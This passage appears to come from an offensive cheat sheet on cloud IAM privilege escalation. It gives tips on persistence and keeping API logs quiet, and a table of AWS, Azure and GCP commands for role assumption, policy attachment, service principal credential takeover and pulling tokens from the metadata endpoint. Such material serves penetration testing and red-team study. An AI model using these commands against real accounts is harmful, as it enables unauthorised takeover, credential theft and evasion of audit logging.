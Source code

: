 → Inline policies often expose hidden paths.

✅ **Privilege Path Mapping**\
Use tools like `Pacu` or `AzureHound` to visualize what your user _can become_.

✅ **AssumeRole Enumeration**\
Enumerate all trust policies — if you can find a single wildcard trust, you own the account.

✅ **Pivot to Persistence**\
Once escalated → create your own keys, roles, or service principals to maintain access.

✅ **Defense Bypass**\
Use `--no-cli-pager` and quiet flags to minimize API log noise.

✅ **Automation**\
Use:

```bash
enumerate-iam --profile lowuser --scan-privesc
```

to auto-detect escalation vectors.

***

### VIII. ⚙️ Quick Reference Table

| Cloud     | Technique        | Command                                                        |
| --------- | ---------------- | -------------------------------------------------------------- |
| **AWS**   | PassRole → EC2   | `aws ec2 run-instances --iam-instance-profile Name=Admin`      |
|           | AssumeRole       | `aws sts assume-role --role-arn <arn>`                         |
|           | AttachPolicy     | `aws iam attach-user-policy`                                   |
| **Azure** | Role Escalation  | `az role assignment create`                                    |
|           | SPN Takeover     | `az ad sp update --add passwordCredentials`                    |
|           | Managed Identity | `curl 169.254.169.254/metadata/identity/oauth2/token`          |
| **GCP**   | IAM Bind         | `gcloud projects add-iam-policy-binding`                       |
|           | SA Impersonation | `gcloud auth print-access-token --impersonate-service-account` |

***

